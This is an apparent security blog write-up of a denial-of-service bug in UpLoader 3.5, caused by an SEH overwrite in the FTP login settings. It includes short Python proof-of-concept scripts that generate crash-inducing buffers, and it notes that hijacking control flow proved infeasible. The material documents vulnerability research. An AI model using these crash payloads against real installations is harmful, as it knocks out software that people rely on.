 ```yaml
---
layout: post
title: UpLoader 3.5 - 'FTP Login' Denial of Service (PoC + SEH Overwrite)
date: 2020-03-26 14:45:00
categories: posts
comments: false
en: true
---
```


# The Bug.

Uploader! 3.5 suffers from a Structered Exception Handling Overwrite which ends up simply being a Denial of Service due the lack of a valid address.

## The Crash.

### Initial PoC.

```term
import struct

buffer = "A" * 1000 + "A" * 2000

f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

### Once the file is generated and copied to the clipboard, the application is launched and 'Settings' is selected:

![](/assets/img/Findings9/1.png)

The clipboard is pasted within the three parameters, and the box stating "Check to save password in preferences" is checked as well.

### Once OK is clicked, a crash without an overwrite is given:

![](/assets/img/Findings9/2.png)

### Upon rebooting the application, the SEH Chain is modified by 0x41 bytes:

![](/assets/img/Findings9/3.png)

### With the use of the msf tools, the pattern is found out to be 477.

### PoC.

```term
import struct

buffer = "A" * 477 + "BBBB" + "CCCC" + "\xff" * 2000

f = open ("poc.txt", "w")
f.write(buffer)
f.close()
```

### The file uploadpref.dat is deleted, and the application is once again started.

![](/assets/img/Findings9/4.png)

### After repeting the process, the SEH Chain is altered as desired:

![](/assets/img/Findings9/5.png)

### The next step would be hijicking the flow, however, there are no modules with available addresses.

![](/assets/img/Findings9/6.png)

### Due to the fact that NULL-bytes are mangled by the application and its difficulty to implement into this exploit, the circumstances make it impossible to make use of such.

![](/assets/img/Findings9/7.png)
